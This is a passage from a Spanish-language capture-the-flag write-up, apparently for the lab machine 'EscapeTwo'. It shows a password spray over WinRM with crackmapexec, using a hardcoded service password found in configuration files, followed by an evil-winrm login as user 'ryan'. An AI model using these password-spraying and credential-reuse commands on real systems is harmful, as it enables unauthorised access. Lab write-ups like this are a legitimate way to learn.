 Viendo estos archivos de configuración vemos otra contraseña hardcodeada para un usuario llamado "sql_svc"

Podemos añadirlos a los archivos de usuarios y contraseñas que ya tenemos e intentar hacer un password spraying.

[![TERM](/assets/img/posts/escapeTwo/passwords.png)](/assets/img/posts/escapeTwo/passwords.png)

```bash
crackmapexec winrm 10.10.11.51 -u users.txt -p passwords.txt
```
[![CRACKMAP](/assets/img/posts/escapeTwo/ryan_pwned.png)](/assets/img/posts/escapeTwo/ryan_pwned.png)

Parece ser que el usuario "ryan" tiene la misma contraseña que el servicio "sql_svc" y podemos probar a acceder al sistema por winrm.

```bash
evil-winrm -i 10.10.11.51 -u ryan -p 'la_contraseña_encontrada'
```

## User Flag

[![Flag](/assets/img/posts/escapeTwo/user_flag.png)](/assets/img/posts/escapeTwo/user_flag.png)

## Análisis del usuario 
